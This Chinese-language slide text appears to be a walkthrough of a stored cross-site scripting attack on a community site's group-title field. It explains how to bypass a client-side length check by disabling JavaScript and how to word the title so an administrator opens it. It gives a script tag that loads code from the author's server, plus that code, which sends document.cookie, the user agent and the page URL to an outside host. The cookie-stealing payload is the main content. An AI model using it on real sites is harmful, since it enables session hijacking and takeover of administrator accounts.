

大概流程
1.进入社区,创建小组

2.小组标题和描述,尝试输入<wqs>,然后查看源码,搜索wqs发现<并没
有被编码,所以而描述<被编码,所以标题可以跨站

输入<script>alert(1)</script>右边显示字符过多,但是用的是js判断,所以用
火狐浏览器,禁用js,标题随便写一下,但是为了让管理员查看,最好写的正式点,
保存,发现有弹窗,所以为了更加方便写js 所以将标题换成,
房<script src=http://ecocn.org/1></script>
中间的链接是我自己的服务器,内容越短越好,因为显示的时候会截取一段下来
http://ecocn.org/1中的js代码如下:
d=document;s=d.createElement("script");
data=d.cookie+'----'
+navigator.userAgent+'-----'+new Date()+'----'+encodeURIComponent(location.href);
s.src="http://ecocn.org/phpinfo.php?data="+data;d.body.appendChild(s);